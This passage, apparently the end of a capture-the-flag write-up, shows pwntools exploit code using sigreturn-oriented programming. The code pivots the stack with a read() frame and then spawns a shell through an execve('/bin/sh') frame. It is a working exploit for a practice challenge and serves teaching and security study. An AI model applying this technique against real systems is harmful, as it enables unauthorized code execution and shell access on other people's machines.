 We get another `read` from the service, so we craft a `SigreturnFrame` using pwntools, and send it in. We can't use `execve` first, because we need to pivot the stack to be the stack address we leaked earlier, so that we have control of where `'/bin/sh'` is.

```python
# sigframe for read(0, new_stack_addr, 0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
p.send(payload)
```

We will need another address to the entry point on the stack, and 8 more padding bytes, so that we can read in 15 bytes later, making `rax=15`, which is the syscall number for `sigreturn`.

```python
# send 15 bytes so that rax=15
sigreturn = p64(syscall_ret) + 'a' * 7
p.send(sigreturn)
```

Notice here that this time the payload has 7 bytes eating into the `SigreturnFrame`, but that's fine, because the important information are all near to the middle of the frame.

We do the same thing but this time with `execve`.
```python
# same thing, sigframe for execve('/bin/sh', 0, 0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
payload += (0x120 - len(payload)) * 'a' + '/bin/sh\x00'
p.send(payload)

# then sigreturn
p.send(sigreturn)

p.interactive()
```

And we get shell!

## References
* https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/advanced_rop/#srop
* http://www.reshahar.com/2017/05/04/360%E6%98%A5%E7%A7%8B%E6%9D%AFsmallest-pwn%E7%9A%84%E5%AD%A6%E4%B9%A0%E4%B8%8E%E5%88%A9%E7%94%A8/